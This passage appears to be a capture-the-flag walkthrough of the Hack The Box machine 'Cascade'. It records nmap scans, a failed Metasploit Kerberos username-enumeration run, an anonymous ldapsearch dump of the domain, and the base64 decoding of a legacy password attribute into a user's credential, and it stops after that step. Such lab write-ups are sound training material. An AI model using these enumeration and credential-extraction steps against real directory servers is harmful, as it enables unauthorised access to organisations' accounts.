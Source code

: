 
![Image Cascade]()

## ---------->> Cascade <<------------

// We start with nmap scan

    $ nmap -sV -A -T4 -Pn 10.10.10.182 -p-
------

    Nmap scan report for 10.10.10.182
    Host is up (0.23s latency).
    Not shown: 65520 filtered tcp ports (no-response)
    PORT      STATE SERVICE       VERSION
    53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
    | dns-nsid: 
    |_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-09-19 05:42:28Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    636/tcp   open  tcpwrapped
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
    3269/tcp  open  tcpwrapped
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49154/tcp open  msrpc         Microsoft Windows RPC
    49155/tcp open  msrpc         Microsoft Windows RPC
    49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49158/tcp open  msrpc         Microsoft Windows RPC
    49170/tcp open  msrpc         Microsoft Windows RPC
    Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

    Host script results:
    | smb2-security-mode: 
    |   2.1: 
    |_    Message signing enabled and required
    | smb2-time: 
    |   date: 2021-09-19T05:43:30
    |_  start_date: 2021-09-19T05:36:14

// First we can see there is an ldap service running with Domain name 'cascade.local', lets add him to /etc/hosts

    $ cat /etc/hosts

    # Host addresses
    10.10.10.182 cascade.local

// Lets try to get more info about the domain with nmap ldap scripts

    $ nmap -n -sV -Pn --script "ldap* and not brute" 10.10.10.182
 
 // It didnt really help me, the output is huge and the only interesting line there is the DC name
 
     $cat nmap_ldapScripts.txt | grep @CASCADE
    |       ldapServiceName: cascade.local:casc-dc1$@CASCADE.LOCAL

// Moving on, Tring to enumerate domain users with MetaSploit and rockyou.txt could work for you

// but it didnt for me(stops after minute)

    msf6 auxiliary(gather/kerberos_enumusers) > options 

    Module options (auxiliary/gather/kerberos_enumusers):

       Name       Current Setting                  Required  Description
       ----       ---------------                  --------  -----------
       DOMAIN     cascade.local                    yes       The Domain Eg: demo.local
       RHOSTS     10.10.10.182                     yes       The target host(s), range CIDR identifier, or hosts fi
                                                             le with syntax 'file:<path>'
       RPORT      88                               yes       The target port
       Timeout    10                               yes       The TCP timeout to establish connection and read data
       USER_FILE  /home/r4r3/Desktop/htb/wordlist  yes       Files containing usernames, one per line
                  s--/rockyou.txt

    msf6 auxiliary(gather/kerberos_enumusers) > exploit 
    [*] Running module against 10.10.10.182

    [*] Validating options...
    [*] Using domain: CASCADE.LOCAL...
    [*] 10.10.10.182:88 - Testing User: "123456"...
    [*] 10.10.10.182:88 - KDC_ERR_C_PRINCIPAL_UNKNOWN - Client not found in Kerberos database
    ...[SNIP]...
    [*] 10.10.10.182:88 - User: "mexico" does not exist
    [*] 10.10.10.182:88 - Testing User: "brianna"...
    [-] Auxiliary failed: Errno::ECONNRESET Connection reset by peer
    [-] Call stack:
    [-]   /usr/lib/ruby/2.7.0/socket.rb:452:in `__read_nonblock'
    [-]   /usr/lib/ruby/2.7.0/socket.rb:452:in `read_nonblock'
    [-]   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-core-0.1.17/lib/rex/io/stream.rb:91:in `block in read'
    [-]   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-core-0.1.17/lib/rex/io/stream.rb:351:in `synchronize_access'
    [-]   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-core-0.1.17/lib/rex/io/stream.rb:89:in `read'
    [-]   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-core-0.1.17/lib/rex/io/stream.rb:223:in `get_once'
    [-]   /usr/share/metasploit-framework/lib/rex/proto/kerberos/client.rb:163:in `recv_response_tcp'
    [-]   /usr/share/metasploit-framework/lib/rex/proto/kerberos/client.rb:102:in `recv_response'
    [-]   /usr/share/metasploit-framework/lib/rex/proto/kerberos/client.rb:120:in `send_recv'
    [-]   /usr/share/metasploit-framework/lib/msf/core/exploit/remote/kerberos/client.rb:112:in `send_request_as'
    [-]   /usr/share/metasploit-framework/modules/auxiliary/gather/kerberos_enumusers.rb:67:in `block in run'
    [-]   /usr/share/metasploit-framework/modules/auxiliary/gather/kerberos_enumusers.rb:65:in `each'
    [-]   /usr/share/metasploit-framework/modules/auxiliary/gather/kerberos_enumusers.rb:65:in `run'
    [*] Auxiliary module execution completed

// must be some missing library.... 

// So i tried other ways like [kerbrute](https://github.com/TarlogicSecurity/kerbrute) and [responder](https://tools.kali.org/sniffingspoofing/responder)

// And finally get the most valuable data with [ldapsearch](https://docs.ldap.com/ldap-sdk/docs/tool-usages/ldapsearch.html)(helping [examples](https://access.redhat.com/documentation/en-us/red_hat_directory_server/10/html/administration_guide/examples-of-common-ldapsearches))

    $ ldapsearch -h 10.10.10.182 -x -b "dc=cascade,dc=local" > ldapsearch_res.txt

// The output is HUGE , so after some digging in the file, i will output the unique information

    $ cat ldapsearch_res.txt | grep sAMAccountName
-----

    sAMAccountName: CascGuest
    sAMAccountName: Users
    sAMAccountName: Guests
    sAMAccountName: Remote Desktop Users
    sAMAccountName: Network Configuration Operators
    sAMAccountName: Performance Monitor Users
    sAMAccountName: Performance Log Users
    sAMAccountName: Distributed COM Users
    sAMAccountName: IIS_IUSRS
    sAMAccountName: Cryptographic Operators
    sAMAccountName: Event Log Readers
    sAMAccountName: Certificate Service DCOM Access
    sAMAccountName: CASC-DC1$
    sAMAccountName: Domain Computers
    sAMAccountName: Cert Publishers
    sAMAccountName: Domain Users
    sAMAccountName: Domain Guests
    sAMAccountName: Group Policy Creator Owners
    sAMAccountName: RAS and IAS Servers
    sAMAccountName: Pre-Windows 2000 Compatible Access
    sAMAccountName: Incoming Forest Trust Builders
    sAMAccountName: Windows Authorization Access Group
    sAMAccountName: Terminal Server License Servers
    sAMAccountName: Allowed RODC Password Replication Group
    sAMAccountName: Denied RODC Password Replication Group
    sAMAccountName: Enterprise Read-only Domain Controllers
    sAMAccountName: DnsAdmins
    sAMAccountName: DnsUpdateProxy
    sAMAccountName: arksvc
    sAMAccountName: s.smith
    sAMAccountName: r.thompson
    sAMAccountName: util
    sAMAccountName: IT
    sAMAccountName: Production
    sAMAccountName: HR
    sAMAccountName: j.wakefield
    sAMAccountName: AD Recycle Bin
    sAMAccountName: Backup
    sAMAccountName: s.hickson
    sAMAccountName: j.goodhand
    sAMAccountName: Temps
    sAMAccountName: a.turnbull
    sAMAccountName: WinRMRemoteWMIUsers__
    sAMAccountName: Remote Management Users
    sAMAccountName: e.crowe
    sAMAccountName: b.hanson
    sAMAccountName: d.burman
    sAMAccountName: BackupSvc
    sAMAccountName: Factory
    sAMAccountName: Finance
    sAMAccountName: j.allen
    sAMAccountName: i.croft
    sAMAccountName: Audit Share
    sAMAccountName: Data Share
-----

    $ cat ldapsearch_res.txt | grep cascadeLegacyPwd
    cascadeLegacyPwd: clk0bjVldmE=

// We have a encrypted string, lets decrypt it

    $echo 'clk0bjVldmE=' | base64 -d
    rY4n5eva
    
// It looks like user 'r.thompson' password    

    sAMAccountName: r.thompson
    sAMAccountType: 805306368
    userPrincipalName: r.thompson@cascade.local
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
    dSCorePropagationData: 20200126183918.0Z
    dSCorePropagationData: 20200119174753.0Z
    dSCorePropagationData: 20200119174719.0Z
    dSCorePropagationData: 20200119174508.0Z
    dSCorePropagationData: 16010101000000.0Z
    lastLogonTimestamp: 132294360317419816
    msDS-SupportedEncryptionTypes: 0
    cascadeLegacyPwd: clk0bjVldmE=
    
// 
